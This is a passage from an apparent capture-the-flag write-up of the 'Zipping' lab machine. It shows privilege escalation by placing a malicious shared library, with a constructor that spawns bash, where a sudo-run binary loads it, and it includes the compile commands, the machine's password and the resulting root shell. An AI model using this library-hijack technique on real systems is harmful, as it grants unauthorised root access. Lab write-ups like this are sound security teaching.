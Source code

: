 

Before it prints the menu, it attempts to load
`/home/rektsu/.config/libcounter.so`, but fails because that file
doesn't exist.

### Malicious SO

If I can create a malicious shared object (library) in that location, it
will be loaded by the binary. Any code I put into a constructor will be
executed. I've shown this before, most recently with
[Broker](/htb-broker.md#create-so).

I'll write a simple C file:



    rektsu@zipping:/home/rektsu/.config$ cat libcounter.c 
    #include <stdlib.h>
    __attribute__ ((__constructor__))
    void shell(void){
        system("/bin/bash");
    }



It marks the `shell` function as a constructor, which means it runs when
the library is loaded. That function simply calls `/bin/bash`,
interrupting the flow of the program and returning an interactive shell.

I'll compile this as a shared object:



    rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c
    rektsu@zipping:/home/rektsu/.config$ ls
    libcounter.c  libcounter.so



Now when I run `sudo stock`, after putting in the password, it drops
into `bash` as root:



    rektsu@zipping:/home/rektsu/.config$ sudo stock
    Enter the password: St0ckM4nager
    root@zipping:/home/rektsu/.config# id
    uid=0(root) gid=0(root) groups=0(root)



And I'm able to read the flag:



    root@zipping:~# cat root.txt
    b29a08c2************************



## Beyond Root - Unintended Footholds
